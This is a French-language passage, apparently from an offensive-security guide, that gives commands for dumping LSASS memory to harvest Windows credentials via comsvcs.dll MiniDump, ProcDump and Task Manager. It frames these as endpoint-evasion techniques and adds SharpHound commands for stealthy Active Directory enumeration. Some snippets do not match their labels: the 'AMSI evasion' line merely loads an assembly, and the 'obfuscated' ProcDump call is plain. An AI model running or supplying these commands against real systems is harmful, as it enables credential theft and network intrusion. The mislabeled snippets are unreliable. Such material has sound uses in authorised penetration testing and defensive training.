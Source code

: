 **Dumping LSASS moderne avec évasion :**

Les techniques 2025 intègrent l'évasion des protections endpoint :

```powershell
# Dumping direct via MiniDumpWriteDump
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump [PID_LSASS] C:\temp\lsass.dmp full

# Utilisation de ProcDump avec obfuscation
procdump.exe -accepteula -ma lsass.exe lsass.dmp

# Technique living-off-the-land avec Task Manager
# Clic droit sur lsass.exe -> "Create dump file"

# Dumping via PowerShell avec évasion AMSI
[System.Reflection.Assembly]::LoadWithPartialName("System.Management.Automation")
```

## BloodHound et Cartographie des Chemins d'Attaque

### Architecture et Fonctionnement de BloodHound

BloodHound révolutionne l'analyse des vulnérabilités Active Directory en utilisant la théorie des graphes pour identifier les relations cachées et les chemins d'attaque dans les environnements AD. Cet outil transforme les données de permissions complexes en visualisations interactives révélant les voies d'escalade de privilèges.

**Composants techniques :**

* **Interface Neo4j** : Base de données graphe stockant les objets AD comme nœuds interconnectés
    
* **Collecteurs de données** : SharpHound (C#) et AzureHound (Azure AD) pour l'énumération
    
* **Interface web Electron** : Application monopage JavaScript pour la visualisation et l'analyse
    

### Collecte de Données Avancée avec SharpHound

**Techniques d'énumération complète :**

```powershell
# Collecte standard complète
SharpHound.exe -c All --outputdirectory C:\temp\

# Collecte avec méthodes spécifiques
SharpHound.exe -c Session,ObjectProps,ACL --outputprefix "corp_enum"

# Collecte stealth avec intervalle
SharpHound.exe -c All --throttle 1000 --jitter 20

# Collecte cross-domain
SharpHound.exe -c All --domain child.corp.local --domaincontroller dc.child.corp.local

# Collecte avec exclusions pour réduire le bruit
SharpHound.exe -c All --excludedcs dc-old.corp.local --skipgcdeconfliction
```
